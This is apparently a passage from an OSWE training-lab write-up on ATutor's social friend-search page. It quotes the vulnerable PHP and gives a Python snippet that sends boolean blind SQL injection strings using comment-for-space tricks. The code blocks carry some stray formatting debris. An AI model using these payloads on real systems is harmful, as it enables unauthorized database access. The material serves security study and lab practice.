Vulnerable Code:

```bash
if(isset($_POST['rand_key'])){    
				$rand_key = $addslashes($_POST['rand_key']);        //should we excape?
}

i**f((isset($rand_key) && $rand_key!='**' && isset($_POST['search_friends_'.$rand_key])) || isset($_GET['search_friends'])){
        if (empty($_POST['search_friends_'.$rand_key]) && !isset($_GET['search_friends'])){
                $msg->addError('CANNOT_BE_EMPTY');                
								header('Location: '.url_rewrite(AT_SOCIAL_BASENAME.'index_public.php', AT_PRETTY_URL_IS_HEADER));
                exit;        
				}        
				//to adapt paginator GET queries
				if(isset($_GET['search_friends'])){
                $search_field = $addslashes($_GET['search_friends']);
        } else {                
								$search_field = $addslashes($_POST['search_friends_'.$rand_key]);
        }        
				if (isset($_POST['myFriendsOnly'])){
                //retrieve a list of my friends
                $friends = searchFriends($search_field, true);
        } else {
                //retrieve a list of friends by the search
                $friends = searchFriends($search_field);
				        // to calculate the total number. TODO: need a better way, wasting runtime.
                $num_pages = max(ceil(sizeof($friends) / SOCIAL_FRIEND_SEARCH_MAX), 1);
                $friends = searchFriends($search_field, false, $offset);
        }
}
```

Exploit Code (Refer to [extra_mile_3.5.py](https://github.com/dvdg6566/oswe/blob/main/labs/atutor/extra_mile_3.5.py))

- Must add content-type (because post requests) and send the payload as `data` object.
- Must remember not to URL encode special characters.

```bash
target = f"http://{ip}/ATutor/mods/_standard/social/index_public.php"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

myobj = {
    "rand_key": "x",
    "search_friends_x": inj_str
}

r = requests.post(target, headers=headers, data = myobj)
s = BeautifulSoup(r.text, 'lxml')

true_injection_string = "aaaa')/**/or/**/(select/**/1)=1#"
false_injection_string = "aaaa')/**/or/**/(select/**/1)=0#"
```
